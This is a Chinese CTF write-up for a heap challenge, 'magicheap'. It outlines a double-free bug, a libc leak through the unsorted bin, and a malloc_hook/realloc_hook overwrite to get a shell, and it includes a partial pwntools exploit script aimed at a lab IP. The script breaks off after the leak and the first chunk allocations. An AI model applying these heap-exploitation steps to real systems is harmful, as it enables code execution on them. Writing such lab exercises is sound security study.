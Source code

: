 

## magicheap

这题手速快抢了个一血hh

保护全开.free功能处明显的double free

unsorted bin泄露libc.

double free改malloc_hook为onegadget，试了一下由于栈环境的问题导致one_gadget失效。

通过使用malloc_hook来跳进realloc来调整栈环境再配合realloc_hook来getshell成功。



exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-

"""
# Author: le3d1ng
# Created Time : 2019年06月01日 星期六 09时07分23秒
# File Name: exp.py
# Description:
"""
from pwn import *

#io = process('./pwn')
io=remote('172.29.21.118', 9999)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' ,'-c']


def debug():
	gdb.attach(io)
	io.interactive()

def add(s,c):
	io.sendlineafter('choice:','1')
	io.sendlineafter('size of story: \n',str(s))
	io.sendafter('npute the story: \n',c)

def dele(idx):
	io.sendlineafter('choice:','4')
	io.sendlineafter('he index:',str(idx))


io.recv()
io.send('A'*8)
io.recvuntil('AAAAAAAA')
libcbase = u64(io.recv(6).ljust(8,'\x00')) - 0x6fdbd
success('libcbase ' + hex(libcbase))
mallochookaddr = libcbase + libc.symbols['__malloc_hook']
libcrealloc = libcbase + libc.symbols['__libc_realloc']
fakechunk = mallochookaddr - 0x23
success('mallochook ' +hex(mallochookaddr))
io.send('111')

add(0x60,'0') 
add(0x60,'1')
add(0x60,'2')
add(0x60,'3')

```